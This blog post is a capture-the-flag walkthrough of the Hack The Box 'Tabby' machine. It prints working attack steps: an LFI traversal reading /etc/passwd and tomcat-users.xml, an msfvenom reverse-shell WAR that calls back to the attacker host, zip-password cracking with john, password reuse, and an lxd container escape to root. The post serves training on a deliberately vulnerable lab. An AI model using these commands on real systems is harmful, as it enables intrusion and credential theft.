 ```yaml
---
layout: post
author: Siddhant Chouhan
title: Hack The Box Tabby Writeup
categories: [HackTheBox,Linux Machines]
tags: [hackthebox, tabby, ctf, lfi, local-file-inclusion, tomcat, php, creds, users, text-manager, msfvenom, curl, war, john, zip2john, password-reuse, hash, lxd, lxc, container ]
image: /assets/img/Posts/Tabby.png
---
```

## Overview:

The box starts with us finding a <code class="language-plaintext highlighter-rouge">Local File Inclusion Vulnerability<code> on port 80 and we have <code class="language-plaintext highlighter-rouge">tomcat</code> running on port 8080 ,so we can use the LFI vulnerability to find credentials for tomcat's manager application.Then we get a shell on the box by a malicious <code class="language-plaintext highlighter-rouge">WAR file upload</code>. We find a password protected zip file in the /var/www/html/files directory,on cracking the zip file with the help of <code class="language-plaintext highlighter-rouge">john the ripper</code> we get the password for the user ash. Turns out the user ash is part of the <code class="language-plaintext highlighter-rouge">lxd</code> group which can be exploited and we root the box. 
  
## Reconnaissance
### Nmap Scan
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ nmap -sC -sV 10.10.10.194 -oN nmap_scan

# Nmap 7.80 scan initiated Fri Nov  6 23:05:38 2020 as: nmap -sC -sV -oN nmap_scan -v 10.10.10.194
Increasing send delay for 10.10.10.194 from 5 to 10 due to 18 out of 58 dropped probes since last increase.
Increasing send delay for 10.10.10.194 from 10 to 20 due to 11 out of 28 dropped probes since last increase.
Nmap scan report for 10.10.10.194
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 338ABBB5EA8D80B9869555ECA253D49D
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Mega Hosting
8080/tcp open  http    Apache Tomcat
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Apache Tomcat
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Nov  6 23:06:56 2020 -- 1 IP address (1 host up) scanned in 77.58 seconds
```
### Port 80
<p class= "aligncenter" >
  <img src="/assets/images/tabby-port80.png" class="center">
</p>

On opening the news tab, we notice that the url of the page is "http://megahosting.htb/news.php?file=statement".
So we will add megahosting.htb to our /etc/hosts file.
The url of this page also indicates a possible Local File Inclusion Vulnerability.<br>
Let's confirm this by reading /etc/passwd since in every linux system it is readable by all the users.<br>
"http://megahosting.htb/news.php?file=../../../../etc/passwd" 
<p class= "aligncenter" >
  <img src="/assets/images/tabby-lfi-confimed.png" class="center">
</p>
Also we note that there is a user on the box named ash.
### Port 8080
<p class= "aligncenter" >
  <img src="/assets/images/tabby-port8080.png" class="center">
</p>
This is the default page for tomcat, and it says that this instance of tomcat is installed in "/usr/share/tomcat9"<br>
NOTE: For security reasons, using the manager webapp is restricted to users with role "manager-gui". The host-manager webapp is restricted to users with role "admin-gui". Users are defined in "/etc/tomcat9/tomcat-users.xml".<br>


So we have a LFI vulnerability and we know that the credentials for the tomcat manager webapp are in the file /etc/tomcat9/tomcat-users.xml and that tomcat is installed in /usr/share/tomcat9. We can install tomcat9 on our system and see where the tomcat-users.xml file will be present.<br>
So the file we want to read is present at /usr/share/tomcat9/etc/tomcat-users.xml.

Let's get the credentials now. We get a blank page but if we view the source code of the page we find that we have successfully found the file and we get the tomcat manager credentials and we can see that we have the roles "admin-gui,manager-script".

<p class= "aligncenter" >
  <img src="/assets/images/tabby-tomcat-users-xml.png" class="center">
</p>
We can't access the manager-gui to upload a malicious WAR file but we still can use curl to upload since we have the manager-script role.
## Using msfvenom to create a WAR file reverse shell.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.9 lport=4444 -f war > sid.war
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of war file: 1617 bytes
```
Let's upload this with help of curl.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ curl -u 'tomcat':'$3cureP4s5w0rd123!' -T sid.war 'http://10.10.10.194:8080/manager/text/deploy?path=/a.war'
OK - Deployed application at context path [/a.war]
```
Starting up a netcat listner on port 4444. Then visitng "http://10.10.10.194:8080/a.war" to get our reverse shell.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ rlwrap nc -lvnp 4444                                                                                                         1 ⨯
listening on [any] 4444 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.194] 49454
id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
python3 -c 'import pty;pty.spawn("/bin/bash")'
tomcat@tabby:/var/lib/tomcat9$ 
```
## Getting the user flag
We find a zip file which was password protected, transfer the file to our machine with help of netcat and cracked it by using john the ripper.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ zip2john 16162020_backup.zip  > hash

┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ cat hash
16162020_backup.zip:$pkzip2$3*2*1*0*0*24*02f9*5d46*ccf7b799809a3d3c12abb83063af3c6dd538521379c8d744cd195945926884341a9c4f74*1*0*8*24*285c*5935*f422c
178c96c8537b1297ae19ab6b91f497252d0a4efe86b3264ee48b099ed6dd54811ff*2*0*72*7b*5c67f19e*1b1f*4f*8*72*5c67*5a7a*ca5fafc4738500a9b5a41c17d7ee193634e3f8
e483b6795e898581d0fe5198d16fe5332ea7d4a299e95ebfff6b9f955427563773b68eaee312d2bb841eecd6b9cc70a7597226c7a8724b0fcd43e4d0183f0ad47c14bf0268c1113ff57e
11fc2e74d72a8d30f3590adc3393dddac6dcb11bfd*$/pkzip2$::16162020_backup.zip:var/www/html/news.php, var/www/html/logo.png, var/www/html/index.php:16162020_backup.zip

┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ john hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
admin@it         (16162020_backup.zip)
1g 0:00:00:01 DONE (2020-11-07 21:21) 0.5154g/s 5341Kp/s 5341Kc/s 5341KC/s adnc153..adenabuck
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
We cracked the zip file and the password is `admin@it`. Turns out this is the password for the user ash as well.
```shell
tomcat@tabby:/var/www/html/files$ su ash
su ash
Password: admin@it

ash@tabby:/var/www/html/files$ whoami
whoami
ash
ash@tabby:/var/www/html/files$ id
id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)
ash@tabby:/var/www/html/files$ cd /home/ash
ash@tabby:~$ cat user.txt
cat user.txt
70d7a301277d4285e8ff1ff443b3c77b
```
## Privilege escalation
We see that the user ash is part of the lxd group. On googling lxd priv esc, came across this [article](https://www.hackingarticles.in/lxd-privilege-escalation/).
Now we just have to follow the commands as it is in the article and we are able to get root!
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ git clone https://github.com/saghul/lxd-alpine-builder.git 

Cloning into 'lxd-alpine-builder'...
remote: Enumerating objects: 27, done.
remote: Total 27 (delta 0), reused 0 (delta 0), pack-reused 27
Unpacking objects: 100% (27/27), 15.98 KiB | 1.60 MiB/s, done.

┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ cd lxd-alpine-builder

┌──(sid㉿kali)-[~/…/hackthebox/linux-machines/tabby/lxd-alpine-builder]
└─$ sudo ./build-alpine

┌──(sid㉿kali)-[~/…/hackthebox/linux-machines/tabby/lxd-alpine-builder]
└─$ ls
alpine-v3.12-x86_64-20201107_2130.tar.gz  build-alpine  LICENSE  README.md

┌──(sid㉿kali)-[~/…/hackthebox/linux-machines/tabby/lxd-alpine-builder]
└─$ python3 -m http.server 7777
Serving HTTP on 0.0.0.0 port 7777 (http://0.0.0.0:7777/) ...

```
On tabby :

```shell
ash@tabby:~$ wget http://10.10.14.9:7777/alpine-v3.12-x86_64-20201107_2130.tar.gz
Connecting to 10.10.14.9:7777... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3194011 (3.0M) [application/gzip]
Saving to: ‘alpine-v3.12-x86_64-20201107_2130.tar.gz’

alpine-v3.12-x86_64 100%[===================>]   3.05M  2.57MB/s    in 1.2s    

2020-11-07 16:21:28 (2.57 MB/s) - ‘alpine-v3.12-x86_64-20201107_2130.tar.gz’ saved [3194011/3194011]

ash@tabby:~$ lxd init
lxd init
Would you like to use LXD clustering? (yes/no) [default=no]: no
no
Do you want to configure a new storage pool? (yes/no) [default=yes]: no
no
Would you like to connect to a MAAS server? (yes/no) [default=no]: no
no
Would you like to create a new local network bridge? (yes/no) [default=yes]: no
no
Would you like to configure LXD to use an existing bridge or host interface? (yes/no) [default=no]: no
no
Would you like LXD to be available over the network? (yes/no) [default=no]: no
no
Would you like stale cached images to be updated automatically? (yes/no) [default=yes] no
no
Would you like a YAML "lxd init" preseed to be printed? (yes/no) [default=no]: no
no

ash@tabby:~$ lxc image import ./alpine-v3.12-x86_64-20201107_2130.tar.gz --alias myimage
lxc image import ./alpine-v3.12-x86_64-20201107_2130.tar.gz --alias myimage
ash@tabby:~$ lxc image list
lxc image list
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
|  ALIAS  | FINGERPRINT  | PUBLIC |               DESCRIPTION               | ARCHITECTURE |   TYPE    |  SIZE  |         UPLOAD DATE          |
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| alpine  | fa5b049986a5 | no     | Alpinelinux 3.12 x86_64 (20201107_1032) | x86_64       | CONTAINER | 2.40MB | Nov 7, 2020 at 10:55am (UTC) |
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+
| myimage | eca77d19af30 | no     | alpine v3.12 (20201107_21:30)           | x86_64       | CONTAINER | 3.05MB | Nov 7, 2020 at 4:51pm (UTC)  |
+---------+--------------+--------+-----------------------------------------+--------------+-----------+--------+------------------------------+

ash@tabby:~$ lxc init myimage sidchn -c security.privileged=true
lxc init myimage sidchn -c security.privileged=true
Creating sidchn
ash@tabby:~$ lxc config device add sidchn mydevice disk source=/ path=/mnt/root recursive=true
lxc config device add sidchn mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to sidchn
ash@tabby:~$ lxc start sidchn
lxc start sidchn
ash@tabby:~$ lxc exec sidchn /bin/sh
lxc exec sidchn /bin/sh
~ # whoami
whoami
root
~ # id
id
uid=0(root) gid=0(root)

~ # cd /mnt/root/root
cd /mnt/root/root
/mnt/root/root # cat root.txt
cat root.txt
6ab5823df58c34e18f93b8cccb0d28d7
/mnt/root/root #
```
And that was the box, hope you learned something new :D

